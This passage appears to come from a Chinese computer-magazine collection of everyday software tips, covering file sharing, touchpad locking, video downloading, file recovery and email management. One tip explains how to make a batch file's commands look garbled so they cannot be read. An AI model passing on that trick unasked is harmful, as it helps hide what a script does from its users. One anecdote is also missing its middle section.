-   另外也可以利用界面中的“文件”或“照片”按钮，重新添加共享的文件。其中的“照片”按钮，允许大家为分享的照片设置相册名称。

### 分享文件

现在让我们转到其他人的视角，看看该如何下载你共享的文件。好友无需安装Tonido，直接利用浏览器打开收到的链接后，页面中就会看到共享文件夹里的所有文件名称。无论想下载哪个文件，单击文件名右侧的箭头的下载按钮，即会调用下载工具开始下载。倘若共享的是单独文件，则直接进入下载过程。

-   根据共享文件的类型不同，网页上方可能出现Gallery或Music分类按钮，单击Gallery按钮，其中的照片就会以缩略图的形式集中显示出来，而单击某张缩略图下方的View按钮，可以把照片放大浏览。想下载的话，单击Download按钮即可。
-   MP3歌曲则利用Music按钮集结，单击该按钮后，在页面上方出现播放器界面，双击下方列表中的某首歌曲，就能通过播放器播放出来。需要注意的是，有些共享文件的中文名称会显示为乱码，因此设置共享之前，最好改为英文名称。

小提示：
在开启Tonido服务的前提下，也可以把安装Tonido的电脑打造成云存储器，功能类似于网盘。首先在其它电脑登录Tonido后台管理界面，在左侧选择文件的存放路径，单击右侧的Upload按钮，在弹出的上传文件对话框中再单击Upload按钮，选择要上传的文件，单击“打开”按钮即可上传。

-   安装插件。右击程序图标，选择Open命令。登录页面后单击左侧的Get More Apps按钮，然后在右侧的“安装”标签中找到Jukebox插件，安装完毕进入“管理”标签，单击该项中的“+”按钮激活插件，此时界面左侧便出现了“音乐盒”。
-   添加歌曲。单击“音乐盒”，再单击右侧提示框里的“开始”，选择MP3文件所在文件夹并打开，单击“新增”按钮添加到播放器中。
-   新增账号。这一步骤用来指定允许使用音乐盒功能的用户。在右侧单击“设定”按钮，在转入的界面切换到“访客用户”标签，单击“新增用户”按钮，在弹出的对话框里输入用户名、密码，单击“新增”完成添加，关闭界面结束。
-   聆听歌曲。在其它电脑打开浏览器，输入后台管理页面的地址，在登录页面切换到Login As Guest标签，使用新添加的账号登录后便打开音乐盒界面，就可以在其它电脑上播放原电脑中导入的歌曲。

小提示：
第一，Tonido所提供的插件，既有收费也有免费，免费插件完全可以满足共享文件的基本需求，有些已自动安装，本文使用的便是免费插件。第二，Tonido官网还提供了其它操作系统版本的软件，大家可以安装在手机、平板等手持设备上，以分享其中的文件。第三，在分享速度方面，实际测试的情况是，利用生成的共享网址分享文件，无论下载还是浏览图片都速度飞快，但在其它电脑使用音乐盒听歌时，效果不是很理想。

(文/赵毅仙)

## 便捷分享 打开网页就能看

和朋友分享图片、视频或PPT等，发邮件或用QQ传送似乎都有点小题大作。特别是那些看后即可扔掉的共享资源，对于想临时分享的资源，我们可以用网页的形式来共享，对方只要打开特定的网址就可以。这种分享的方法，方便快捷。

### 图片分享

软件Hyperdesktop（下载地址：http://www.piaodown.com/soft/51512.html）用来分享图片非常方便。你既可以通过Browse来分享存放在电脑中的图片文件，也可以通过Capture或Capture selected area来进行全屏截图和区域截图。

以区域截图分享为例，单击Capture selected area并用鼠标在屏幕上框选截图区域后，在弹出的编辑窗口中，可以用鼠标进行画线标注，Pen size、Color分别用于改变画笔的粗细和颜色。完成后单击Ok即可上传。上传成功即可在Image links下得到该图片的链接地址，把该地址发送给好友，对方就能直接打开图片了。

### PPT分享

打开网页http://www.authorstream.com/，单击UPLOAD->From Desktop，指定需要上传的课件并输入课件标题，然后单击Upload Now。
上传成功后，将为上传者分配一个形如“asGuest74011”的随机用户名。单击这个随机分配的用户名，就可以看到上传的课件，再单击已上传课件，可得到课件播放网址，把得到的地址发送给同事，对方打开后，就可在页面中利用下方的播放控制按钮观看。

### 音乐分享

我们可以利用QQ音乐来制作自己的在线音乐播放链接地址，单击QQ主界面上的“QQ音乐”，把需要分享的音乐加入到播放列表中。

右击该音乐，选择右键菜单中的“查看歌曲信息”，复制“来源”中的地址，把该地址发送给对方，对方打开后就可直接播放了。

### 视频分享

推荐在土豆中共享自己的视频，先登录自己的土豆账号，然后上传视频文件，上传成功后播放，最后复制播放地址就行了。

(文/曹春华)

## 为本本触摸板巧装“智能锁”

利用本本键盘下部的触摸板，可以在没有鼠标的情况下，灵活地操作本本。但是问题也随之而来，在您编辑文档时，如果不小心碰到了触摸板，屏幕上的鼠标箭头就会“瞎跑”一通，给您的正常操作带来麻烦。如果简单地禁用触摸板，又显得有些小题大做。试试Touchpad Pal这款免费的小软件吧，它可以为触摸板添加智能锁，当您执行输入操作时，可以自动锁定触摸板。当结束输入时，可以自动恢复其功能。

### 简单设置免费用

Touchpad Pal（下载地址：http://pddesofto.com/pp.exe）的使用方法极为简单，当其运行后，会自动判断键盘使用状态，当检测到您在执行文档编辑操作时，会自动锁定触摸板。在此期间，如果您无意间触碰到触摸板，在Touchpad Pal主窗口的“Clicks blocked”栏中会显示触碰的次数。当您不使用键盘时，Touchpad Pal会自动解除触摸板的锁定状态。

### 精准掌控触摸板

Laptop Assistant（下载地址：http://ladesofto.com/la.exe）提供了更多的控制项目，让您可以根据实际需要，精准地掌控本本触摸板的启用和锁定状态。当然，Laptop Assistant是一款收费软件，试用期为30天，这是其美中不足之处。Touchpad Pal虽然是免费软件，但是其功能过于简单。如果您想更加灵活地锁定本本触摸板，还可以试试Laptop Assistant这款共享软件！该软件和Touchpad Pal同出一门，两者是不折不扣的“师兄弟”关系。

-   在系统托盘中Laptop Assistant图标的右键菜单中点击“Touchpad Blocker Options”项，在弹出窗口的“Typing sensitive”栏中拖动滑块，设置检测字符数（默认数为5个，范围从1到10），这样如果您连续输入的字符超过预设值，它就会锁定触摸板。
-   在“Unblock timeout”栏中拖动滑块，设置解锁时间（默认值为10秒，范围从10到60秒），这样当停止输入的时间超过预设值后，可以恢复触摸板的功能。
-   在“Unblock mouse sensitive”栏中拖动滑块，设置鼠标指针移动的像素数（默认为25，范围从0到100），这样当鼠标移动的距离超过预设值后，即可解除触摸板的锁定状态。
-   勾选“Unblock on click”项，表示当点击鼠标时，自动解除触摸板禁用状态。

(文/郭建伟)

## 激光打印机拯救落水后的表单

生活中我们有时会因为不小心而把一些需要上交的重要表单文件掉到水里，即使第一时间把它们迅速捞出晾干，但它们还是会因为浸过水而变得皱皱巴巴的，而我们又不能通过复印的方式重新获得它，因为这些表单上通常都盖有红色印章。难道就只有皱巴巴地交上去吗？那样既不工整也不美观。只要我们身旁有一台能够正常工作的激光打印机，一切问题就可以迎刃而解。

首先，我们需要把落水后的表单一张张摊开放置，放在通风良好的地方，一定要让它们充分晾干哦。然后就可以启动激光打印机，连接好打印机与电脑的数据线，打开Word软件，新建一个空白文档，在打印机的进纸托盘里放上一张刚才晾干的表单，单击打印按钮。看，几秒钟后，原本一张皱巴巴的表单是不是已经变得平整如新了？

哦，神奇呀！被水泡过发皱的表单只要在激光打印机里‘转上一圈’，就可以变得平整如新。这到底是怎么回事？其实我们只要简单地了解一下激光打印机的工作原理就可以找到答案。

我们可以把整台激光打印机看成一条小型的全自动化生产流水线，碳粉和打印纸是这条生产线的‘原料’，打印好的文档就是‘产品’。从‘原料’到‘产品’需要按顺序依次经过以下五道‘工序’：充电、曝光、显影、转印、定影。我们平时在使用打印机时并不关心这五道‘工序’具体是怎么完成的，因为只需要单击打印按钮，也就是向这条‘生产线’一声令下，这条‘生产线’就会自动地把‘原料’按照这五道工序加工成最终的‘产品’，我们只要从打印机出纸托盘里收取印好的文档即可。但为了回答上面提出的问题，我们还必须得了解一下定影这道工序。

打印机在完成充电、曝光、显影、转印这四个步骤后，其实在打印纸上已经形成了需要打印的图像，只不过这时的图像是由分布在纸张表面的疏松碳粉组成的，这个图像还不牢固。假如跳过定影步骤，在完成转印后就直接把打印纸输出来，那么这张纸上的图像就很容易被手蹭掉。定影步骤就是为了解决这个问题而设置的。

在完成了转印步骤后，打印机会把纸张送入定影器中，定影器主要由两个可转动的圆柱形滚筒组成（如图所示），其中一个滚筒能产生大约200℃的温度，具有加热功能，我们称之为定影上辊；另一个滚筒叫定影下辊，定影下辊的作用是配合定影上辊，在两辊的接触处产生强大的挤压力。当带有疏松碳粉的打印纸经过上下两辊之间时，由于高温和高压的作用，碳粉会融化并渗入到纸张纤维中，牢牢地固定在纸上，形成稳定的图像。这时的图像不论用什么都是蹭不掉的。


前面介绍的把纸张弄平的操作，实质上是让打印机为我们打印一张没有任何字符的空白文档，所以前四道‘工序’并没有对我们的表单产生什么作用，关键就在第五道定影工序。当皱巴巴的表单经过定影上下辊时，又是高温烘烤，又是大力挤压，也就是说，正是利用了定影器能产生高温高压的特性，才使激光打印机发挥出了这种‘神奇’的功效。

呵呵，现在明白了吧，这种方法不只是能处理落水后发皱的表单，其实不管什么原因，只要是发皱的纸张，都可以处理，比如装在包里不小心揉皱的文件。

最后给大家说一说需要注意的地方，第一点就是大家千万不要因为心急而把还没有完全干透的表单放进打印机，因为纸张在潮湿状态下没有足够的韧劲，很容易在打印机内被撕破，造成永久的损失。第二点就是操作时一定要用空白文档，如果随便打开一个有内容的文档进行操作，结果是不言而喻的。第三就是根据前面的原理分析，喷墨打印机是没有这种功能的。

(文/杨帆)

## 关于视频下载“唯影”有话要说

近来，FLV视频下载的话题频频出现，有文章介绍IDOWN，遨游，File2HD网站，也有文章推荐维棠、硕鼠、影音嗅探专家等，应该说比较全面了。本不想继续此话题，但近来一次“维棠”嗅探失败的经历，又促使我拿起笔来，因为大家忽视了另一款很有特点的下载工具——“唯影视频下载器”。对此，“唯影”有话要说。

### 第一句：嗅探容易造成分析失败

前面提到的几乎所有工具，都是以嗅探视频原始地址为手段，即到浏览器里探索数据，这本是这类工具的一个必然环节，但由于软件的复杂性，出现失败在所难免。这一点，“唯影”是如何做的呢？

“唯影”的程序界面中，集成了一个多标签浏览器，另有一个搜索框，通过自带的浏览器打开视频界面，就可以直接播放，也可以利用搜索框从优酷、百度视频等网站搜索视频，再打开播放页面。视频播放后，原始地址也会显示在界面列表中，分段视频会显示多个链接地址。它等于从自身获取视频原始地址，少了中间的嗅探环节，可以说，能在网页中播放的FLV视频，都能准确获取原始地址。

### 第二句：下载转换更贴心

以前所介绍的工具（网站除外），都要在打开浏览器找到视频网页后，再启动工具嗅探下载视频。这个过程最少需要打开两个程序——网页浏览器和下载工具。倘若同时下载的视频较多，感觉就非常繁琐。而在“唯影”列表中选中视频地址，单击“下载”，切换到“视频侦测”标签，即可继续下载其它视频。

单击“下载”后弹出“新建下载”对话框，勾选“转换为其它格式”选项，并选择需要的格式（菜单中不存在的格式，可以单击“设置”按钮手工定制），它就会在下载完后自动转换成想要的格式。

### 第三句：内网外网都要通

“维棠”等少数工具内置了代理功能，其它则是遇封必断。其实国外网站的视频（比如YOUTUBE）才有保存价值，因为国内的可以在线看，没必要增加硬盘开销。缺少代理工具，显然会遇到麻烦。

单击右上角的“设置”按钮打开“设置”对话框，切换到“代理设置”标签，勾选“使用代理服务器”选项，然后在下方选择代理服务器类型，并输入服务器地址和端口号，单击“确定”后，就可以通过代理访问并下载被封锁网站的视频。

### 题外话

笔者的看法：ldown志在成为全功能的下载工具，但距离目标，它还有很长的路要走。“唯棠”看起来非常完美，嗅探能力似乎有待提高。“唯影”具有技术上的领先优势，但缺少分段视频合并功能和批量下载功能。批量下载是“硕鼠”的强项，只是操作上不敢恭维。“遨游”和“稞麦”没使用过，不敢评论。至于其它工具，不提也罢。另外，喜欢在线看电影电视剧的朋友，可以留意下“瑞影浏览器”。想不用工具直接从网站下载视频的，也可关注一下FindFiles这个网站（网址：http://findfiles.net/），它把搜索结果分成文本、音频、视频、图片、软件等十个类别，每个结果上都有DOWNLOAD按钮，单击此按钮即可下载。

(文/赵毅仙)

## 百度文库下载百分百 不浪费财富值

近来拍的照片想要洗出来，但是对冲洗不懂，特来百度文库找资料学习。终于找到一好文章，想收藏，无奈财富点不够用，郁闷之余到处评价。终于凑满了5点，点击下载，悲剧来啦，迅雷怎么下也不行。再试试，提示财富值不够，狂评价，但是还是失败了。

难道迅雷设置有问题？摸索后发现，只要把迅雷“监视设置”下“监视浏览器”前的钩钩去掉就可以了，问题立马解决（最后把IE关闭后重启打开）。

细细想想问题又出来啦：那不是以后点下载地址迅雷不自己跳出来了？还要手动？经过实验发现更好的解决方法：点击“监视设置→设置不监视网站”，写上“.baidu.com”，问题完美解决。不怕浪费财富值了，下载一样自动跳出！

(文/蔡磊)

## 四步并一步 下载只要点一下

通常我们要下载页面中链接的某种元素（比如图片或视频等），需要点击资源→选择下载方法→选择下载目的地→确认等一系列步骤，不管你用系统自带的下载功能或者是用下载工具，均不能绕过如此复杂的过程。不过有这样一种下载方法可以避免上面的麻烦。

当你需要页面上连接的某种元素的时候，只要先按住Alt键，再点击你需要下载的页面元素，在某个文件夹下就会立即自动保存下这种页面元素。而你需要做的就是事先打开这个功能的开关即可。

启动360安全浏览器，通过“工具→选项”浏览器系统菜单命令，进入浏览器选项窗口，选择窗口左侧的“快速保存”菜单项。

然后在窗口右侧选中“按住Alt键后，再点击页面元素，自动保存该元素”。接着在下面选择或输入下载元素的保存路径。

如果不想手工建立下载元素存放的子目录名，要选中下面的“保存时自动按网页域名创建子目录”。

下载的元素如果有重名可能会覆盖掉已有同名文件，这时需要选择“当遇到同名文件时：自动改名保存”选项。

### 小提示：

因为该浏览器是以IE为内核而设计的，存在两个选项窗口，一个是浏览器本身的选项窗口，一个是IE的选项窗口，所以不要误入IE的选项窗口。

(文/刘英)

## 轻轻松松给MP3添加封面

下载的MP3歌曲，都应该带有代表其风格的专辑封面，可实际上很多MP3文件由于信息缺损，往往找不到那张图片，这样在使用移动设备播放时，只显示出一个乏味的光盘图标。怎样才能为MP3补全封面，获取视觉、听觉的双重享受呢？

很简单，利用Creevity Mp3 Cover Downloader (下载地址：http://www.creevity.com/) 这款软件，就能轻轻松松地为MP3添加封面。

-   添加时，先选中某张图片，单击Apply按钮，便可把封面添加进MP3里，可以看到歌曲名称旁边的相机状图标同时被选中的图片取代。
-   即便MP3缺少tag信息，也可以利用歌曲的关键词手工搜索，单击Load other covers按钮，在弹出的搜索框中输入MP3关键词（一般为歌曲名称加演唱者姓名)，再单击Search按钮搜索出封面，最后选中封面添加即可。

如果MP3的tag信息比较完整，搜索封面的操作就会自动进行。打开程序界面，单击最上方的下拉箭头，选择Browse选项，在打开的“浏览文件夹”对话框中，选择MP3文件所在的文件夹打开，把里面的歌曲导入到软件，然后利用左右箭头切换歌曲名称。每切换一首歌曲，它便会根据MP3文件里的tag信息，自动从网络搜索匹配的专辑封面，并把它们显示在界面下方。

-   该软件还允许我们把自己收藏的图片设置为MP3封面。选择MP3文件后，单击Add按钮，在弹出的对话框里选择一张图片打开，之后弹出New Cover对话框，选择的图片已在其中，我们只要单击“Yes,add it”按钮（如果MP3已有封面，则按钮名称为“Yes,replace it”），选择的图片从此就变成了新的MP3封面。所有封面添加完后，把它们复制到移动设备中就一切OK了。

(文/孙敏)

## 一键采集 资料进笼好轻松

大家平时都用什么方法采集资料呢？先选中再复制，打开文本编辑器粘贴后编辑？太老套了！跟我学学吧，无论哪里的资料，想让它进笼，只需一键就能完成。若想知道为什么这么简单，只要安装Text Editor Anywhere这款软件你就明白啦。

比如我平时使用EverNote收集资料，想加速，就先让Text Editor Anywhere (下载地址：http://www.listary.com/text-editor-anywhere.html) 和EverNote建立联系。

-   运行Text Editor Anywhere后，右击系统托盘区的程序图标，选择Options选项打开设置界面，勾选Mode栏中的Use the editor to edit only selected text选项，因为默认情况下，它会捕获网页中的所有文字，这样设置使它只捕获选中的文字。
-   接着单击“+”按钮打开New Extension对话框，单击Browse按钮，选择EverNote的可执行文件打开，其它选项保持不变，单击OK按钮返回Options界面。最后在Extensions栏选中新加入的EverNote，单击“↑”按钮将其位置调整到最上方（因为直接按下热键时，会默认使用最上方的程序），单击OK按钮结束。
-   如果你还经常使用其它程序进行编辑，比如Word、WPS等，可按上述方法添加进来。
-   从此以后，收集资料就简单多了，无论资料来自网络还是本地，只要在选中文本内容后，按下键盘上的Win+A键，选中的文本就会自动加入到EverNote中。
-   而要把资料发送到Word或其它编辑器编辑时，则先按住键盘上的Win键，再按一下A键，这样会弹出编辑器选择界面，从中单击想要使用的程序即可完成。

(文/孙敏)

## 系统还原后找回丢失的资料

朋友的东芝笔记本预装的是Windows 7，由于故障想重做系统，按“0”键进入系统设置，加载完成后选择恢复出厂默认设置进行系统还原操作。还原完毕，进入系统打开“计算机”查看属性，却吓了一跳，以前是5个分区，其中有一个是隐藏分区，现在只剩下C盘和一个隐藏分区，可E盘和F盘都存有大量的照片和PPT课件啊！朋友求助于我，希望找回这些宝贵资料。

我想起以前在做Windows Server 2003时，最后要对分区重新分配盘符，于是在“计算机”处右击“属性”，打开“磁盘管理”，可在磁盘下只有一个C盘，根本没有其他分区，自然就不存在盘符分配的问题了。该硬盘有250GB，容量太大，不容易做磁盘备份，看来只有另辟蹊径，用工具软件把资料给恢复出来。

用其他电脑下载一个FinalData绿色版复制到U盘中，在本地计算机上运行。用该软件有两个原因：其一，该软件是绿色版，在本机上运行时不用安装，不会在本机上注册，所以就不会产生写操作，不会破坏硬盘的系统结构，万一该软件恢复不出来，可以用别的工具来恢复；其二，我们的目的是找回照片资料，不用全盘恢复，所以适合用该软件。

-   把U盘插入到该笔记本电脑中，运行U盘中的FinalData绿色版。选择要恢复的硬盘，因为该笔记本只有C盘，只能选择该磁盘，单击“搜索”后就进行磁盘分区扫描。该动作很漫长，进度条走完要用三四个小时。所以恢复数据是很花费时间的，一定要有耐心。
-   等到分区全部扫描完毕后，会进入下一个窗口，在左侧的目录区中，选择丢失的文件，再单选PPT格式和JPG格式，单击下一步，在右侧出现大量的丢失文件。按Ctrl+A组合键全选文件，然后在文件处右击，选择保存为，在打开的资源管理器中，选择保存到U盘中，过一会，照片资料全部找到了。

> **小提示：**
这个还原操作是整盘安装的，所有的分区都覆盖了，尽管加载完成后出现警告页面，警告执行恢复后所有数据会被删除，但朋友大概以为只是针对系统盘，所以没有对数据进行备份。品牌机在系统还原时，一定要注意选择好分区，一旦选错也不要担心，千万不要往磁盘读写数据，否则会造成数据丢失，甚至使数据无法恢复。

(文/王昌红)

## 上传文档太臃肿 Word压缩来帮忙

李老师在全国校讯通杯论文的截止日期前，在论文平台上传写好的Word文档，但系统提示文档过大，要求是1兆字节，而他的却是1.3兆字节，变成压缩格式系统却不认，没办法他只好请教小王。

小王打开Word文档，只见文中出现了两处图片，体积比较大，选中图片，单击鼠标右键，选择“设置图片格式”，单击“压缩”按钮，出现“压缩图片”窗口，看到图片的分辨率是200dpi，在“更改分辨率”下选择“Web/屏幕”，现在图片分辨率变为96dpi，然后保存。经过这样处理后，文档体积变成了700多KB，李老师顺利地将论文上传上去了。

(文/段晓东)

## 1分钟激活非会员的离线下载空间

小汤习惯用QQ旋风作为下载工具，这几天好不容易找到了一部盼望已久的高清电影，准备利用离线下载功能将网络资源放在离线服务器，回到家后再高速下载，但麻烦的是，QQ旋风的离线下载服务要求用户必须达到LV8级或者开通会员才可以正常使用，难道只能花钱开通会员？

其实，小汤可以使用iPad激活自己的离线下载空间（正好不久前她入手了一台iPad 2嘛），操作也相当简单。

打开iPad，首先下载并安装最新版本的QQ影音HD，运行后单击“资源库”按钮，此时会看到登录画面，按照提示输入非会员的QQ账号和密码，登录成功之后即可完成关联操作。这里已经提供了系统推荐的几个离线资源，其实此时已经成功激活QQ旋风的离线下载空间，整个过程操作下来，差不多也就在1分钟左右。为了保险起见，小汤还要去查看一番，在浏览器上访问http://lixian.qq.com/，发现自己的这个非会员账号已经获得总量为25GB、存放期为10天的离线下载空间，这下无论是在QQ旋风客户端或是网页端，都是相当的方便。

(文/引火虫)

## 养眼让液晶屏24小时自动调色温

要让液晶屏看上去舒服，在一天中不同时段、一年中不同季节，它的色温、亮度都应该有所不同，比如天气渐冷时应该为暖色调，白天亮度应该亮一些，但如果这些全靠手工来调节，相信很多人都会放弃。有一款软件flux (http://115.com/file/bhyyvagz#flux.7z)，它可以根据你所处位置的天气、季节来自动调节屏幕的亮度与色温。

右击托盘中的软件图标，选择Preview，可以看到随着太阳、月亮的运动轨迹变化，屏幕的亮度、色温在随之发生变化。因为世界各地时差的不同，所以我们要确定自己所处的位置，选择右键菜单中的Change location，在弹出的Where am I窗口中单击locate打开网页，输入自己所在城市的名称（可以精确到乡镇），单击Go，在地图下方即可以得到地址代码，复制该代码并粘贴到小窗口中，单击OK即定位成功，这时它立即开始根据你所处位置的时间来进行调节，你也能立即感受到屏幕的变化效果。

如果对自动调节的效果不满意，也可以手工调节亮度、色温，选择右键菜单中的Change lighting，拖动上下两个滑块就可以进行调节了。

(文/吴忠仪)

## Web邮箱也能轻松切换

工作需要我申请了多个网易邮箱账户，在台式机上我通常用网易闪电邮，切换邮箱账户和收发邮件都比较方便。但在上网本上，为了不占用太多的系统资源，我则习惯用Web方式登录邮箱。每次都要一一输入各个账号和密码，有时会会觉得有点麻烦。偶然发现网易的邮箱关联功能可以轻松关联163、126、yeah三种类型的免费邮箱账户，方便通过Web方式登录多个邮箱，通过Web方式登录任意一个网易邮箱，单击邮箱名称右侧的黑色三角形，打开“已关联的网易邮箱”对话框，单击“添加关联邮箱”，输入当前邮箱密码，需要关联的账号和对应的邮箱密码，就可以关联一个网易邮箱账户，关联成功后，只要登录其中的一个邮箱账户，就可以通过“已关联的网易邮箱”列表，轻松在多个网易邮箱账户之间进行切换。如果要取消关联，则单击“管理”进行取消设置。

如果使用的是新浪、搜狐、腾讯等网站提供的邮箱账户，则可以借助对应网站提供的邮件代收功能，只需要登录其中的一个邮箱账户，例如新浪邮箱，就能轻松收取其它网站邮箱的来信。而且还提供了每天自动收取一次代收邮箱的邮件、导入其它邮箱的联系人列表和直接代收邮箱账号发信等功能，便于通过Web方式管理多个邮箱账户。令人遗憾的是，网易没有提供其它网站邮件的代收功能。

## 那个异常的回车键

回车键，一个普通的按键，对我来说却不寻常。那年我刚毕业，我的第一份工作是在一家企业任总经理助理。上班没多久，公司就开了好几天的股东会。每天跟着总经理参加会议，为会议准备资料、做会议记录，与股东们一起进出会议室，我心里开始有点优越感，觉得自己似乎挺重要的……

大概是太惊慌了，引起了老统计员丁叔的注意，他走过来问发生了什么事，我关闭了文件，把情况如实告诉了他。

别慌，这应该不是文件出错，只是Excel的设置出了问题。”丁叔听我讲完，胸有成竹地说。

在Excel 2007中，要更改回车键移动方向的设置，则点击“左上角的Office图标→Excel选项→高级”；在Excel 2010中，则点击“文件→选项→高级”；其他操作与2003类似。

## 输文字查股票学英语一举三得

工作之余常在网上查询某几只股票的实时行情，如果打开浏览器或运行第三方软件进行操作，既麻烦效率也低。而使用6.0版本的搜狗拼音输入法的云皮肤，在输入的过程中即可查询股票行情，还可以同时学习英语呢。访问http://pinyin.sogou.com/skins/cate/slist_27_1.html，这里提供了多款Flash皮肤，下载“股票大视野”这款皮肤，下载之后会自动更换为当前皮肤，也可以通过“搜狗拼音输入法设置→外观”手动更换。以后只要输入某只股票的中文名称，输入条就会在右侧自动显示该股票的即时行情，也可以在右下角的搜狗拼音工具栏输入股票代码进行查询。

如果希望在输入过程中播放音乐、学习英语，那么可以分别下载“豆瓣电台”和“每日英语”皮肤。使用这两款皮肤作为默认皮肤并不影响查询股票行情，在输入股票名称的同时，输入条仍然会显示相应股票的行情信息。

## 在PC端收发手机短信 简单快捷

生活中我经常要发短信，有时收到的短信过多，疲于应付，弄得自己手忙脚乱。想轻松点？没问题！来试试用PC收发短信吧，在“聊天模式”中便捷地回复短信，就像聊QQ一样方便。“QQ电脑管家”能助你一臂之力哦。打开“QQ电脑管家”（以6.0版本为例），点击“手机管理”标签，之后将自己的手机连接电脑，这时“QQ手机管理”便成功“接管”你的手机了。选择“短信”选项卡，如果此时有短信进入，在窗口右下方会弹出新短信提示，点击“查看”，你便可以直接在软件中查看该条短信内容了。

想回复该短信，也无需用手机来操作，只要在“QQ手机管理”中点击一下短信右侧的那个“回复”按钮，这时便会打开“聊天模式”，在里面我们就可以像使用QQ聊天一样快捷方便地进行短信回复了。

## 设置绿色电脑窗口保护眼睛

在电脑面前坐得太久，眼睛很疲劳，又没时间去窗外看绿色植物，于是便在电脑上设置一些绿色的背景来保护眼睛。

Windows XP的设置方法：在桌面点击右键“属性→外观→高级→项目选择（窗口）→颜色1（L）”，将色调改为85，饱和度123，亮度205，添加到自定义颜色后确定。Windows 7的设置方法：在桌面点击右键选“个性化→窗口颜色→高级外观设置”，然后就和XP的设置方法一样。

还有一种方法更加简单，只要你安装了360安全卫士或金山卫士，都可以找到眼卫士，打开后把视力保护色移动就打开了，但是需要更新到最新版。

## 迅雷做兼职 验明软件正身

网上发布的一些软件，特别是大型的Ghost系统光盘类的，为了防止一些别有用心的人修改或往里面加入木马，在发布页上会同时张贴出软件的MD5码，每个软件的MD5码都是唯一的，就好像是软件的指纹一样，只要有人修改了软件，那么它的MD5值一定会发生改变。因此，我们下载软件后，一定要养成对比MD5值的习惯。在通常情况下，我们都是选择用WinMD5这款软件来对比MD5值。其实，如果你的电脑里安装有迅雷的话，就不需要WinMD5了，因为迅雷就内置了MD5值对比功能，下载后就可直接验证了。

## 影院在放什么电影提前知

周末想和老公一起去看场电影，但因平时很少上街，不清楚电影院最近正在放映哪些影片，又不想为此麻烦打电话询问或现场看海报。其实可以利用Google做好这些预备功课。在浏览器访问http://www.google.cn/movies，Google会根据当前IP地址自动显示所在城市各大影院的放映信息，显示的信息包括影片名称、播放场次、时长、所属类型，部分影片还提供了精彩的预告片，可以通过预告片了解影片的内容。一共可以查看到当日起四天之内的影院放映信息，也可以针对上午、下午、傍晚、深夜等不同时段进行查看，如此之多的选项，对于我们应该足够了。

如果是出差在外，可能对某个影院的所在位置不太清楚，也不用担心，单击左侧导航栏的“显示地图视图”，就可以在Google地图上查看影院的具体位置。

## 手机用联通号 也要飞信

我的手机是诺基亚的5230，最近我使用了联通的3G卡，打电话便宜，可是我却无法使用飞信了，这让我痛心，要知道，飞信可以为我省下一大笔通信费啊！如果下载飞信时根据手机型号来选择，那么安装后登录，飞信是直接验证手机号的，我的不是移动手机号，自然无法登录，哪怕是换成了Java版也还是不行。
去飞信官网下载Symbian Wi-Fi登录通用版，安装后就可以像平常一样输入手机号或飞信号，然后登录飞信发免费短信了，这里会让你选择接入点，我选择的联通手机上网。
（文/李振）

## 绿色软件安装 程序乱码也能看

一些绿色软件（如VMware）的安装程序都是一些bat文件（DOS批处理程序），用记事本打开后，都是一片乱码或黑方块，没法查看安装时动了哪些文件。下面，我教给大家一个办法。
先安装WinRAR或好压，再把这个bat文件打包成压缩文件（在bat文件右键菜单中选择“添加到压缩文件”后确定）。打开刚刚建立的压缩文件，在右键菜单中点“查看文件”，这下，bat中的命令就可以看到了。其实，这种bat是被加密的，加密方法很简单，具体步骤如下：

- 在bat文件最前面加上129个%a并用空格隔开。
- 打包成压缩文件。
- 在压缩文件右键菜单中点“查看文件”。

（文/黄浩睿）

## 合并完成就删除 下载空间莫要占

平时看到网上的精彩视频，我总是喜欢用维棠视频下载软件下载到本地收藏。时间一长，我发现硬盘的容量急剧减少，可是明明没有下载那么多视频啊，我百思不得其解。进入下载文件夹一看，恍然大悟。原来是分段视频惹的祸。
为了加快缓冲速度，大多数视频网站将稍长一点的视频都分割成了几段，使用维棠下载的时候，默认会自动合并分段视频，但并没有默认自动删除这些分段视频，于是硬盘空间暴涨。
知道了原因，解决起来就很简单了。打开维棠的主界面，单击“工具→选项”，在“任务默认设置”中，将“保留合并前的文件”前面的勾选去掉，确定即可。这样在下载视频的时候，合并完成后分段视频就会自动删除，只留下一个完整视频，不会占用我们宝贵的硬盘空间了。
（文/前尘忆梦）

## 让Foxmail提醒您别忘了加上附件

每天处理大量邮件，上传下达十分繁忙，有时难免会在邮件中插入附件，往往等到对方收到未含附件的邮件后发来回复或打来电话才知晓，只得重新插入附件发送过去，十分尴尬。利用Foxmail的附件管理功能，可以及时发现缺失的附件。
打开Foxmail 7，从工具菜单下打开“系统设置”窗口，切换到“写邮件”选项卡，勾选“自动检查缺失的附件”，它已经自动设置了包含附件、文档、.doc、.docx等在内的关键字，你也可以重新打开“检查附件”对话框添加更多的内容。以后，如果邮件正文中已经涉及到这些关键字，但你并没有插入附件，那么在发送邮件时，它便会自动弹出对话框进行提示，这样就不会再出现马大哈的丢人行为啦。
（文/王志军）

## 用上替身邮 垃圾邮件靠边站

以前介绍过不少防止垃圾邮件的办法，比如用10分钟邮箱、60分钟邮箱之类，这些方法有个最大的缺点，就是每次使用前都需要注册，很不方便，而使用雅虎邮箱的替身邮就可很好地避免这个问题。
进入新版雅虎邮箱，点击“选项→邮箱设置→替身邮地址→添加地址”，首次使用的时候会提示“创建替身邮种子”（替身邮种子相当于邮箱地址前缀），完成之后，再次点击“添加地址”。在“关键字”中填入任意关键字，设置“标示颜色”和“发件人名称”，保存即可。
以后我们可以用这个邮件地址给不熟悉的人发送邮件，发件人会显示我们的替身邮地址，发件人名称显示的是我们刚才设置的名称。在网站注册时也可以留下这个邮箱地址，从这个替身邮地址收到的邮件会用紫色标示，一旦发现这个地址的垃圾邮件增多，删除这个替身邮地址，就不会再收到垃圾邮件了。创建一个新的替身邮地址，继续使用吧。替身邮种子只能更改两次，但是替身邮关键字可以随意更改，最多添加500个，所以平时我们只需要更改替身邮关键字即可。
（文/前尘忆梦）

## 办公电脑忘关机 请个助手协助你

忙碌一天终于等到下班，大家赶紧往家里赶，由于疏忽或者懒得动手经常出现夜不关机的现象。一台电脑开机时功率至少150W，待机也有10W左右，如果每天晚上开10个小时，那电费……学校有三千多台电脑，忘记关机还得了。大家想了很多方法都没有明显效果，总不能一个办公室检查吧！
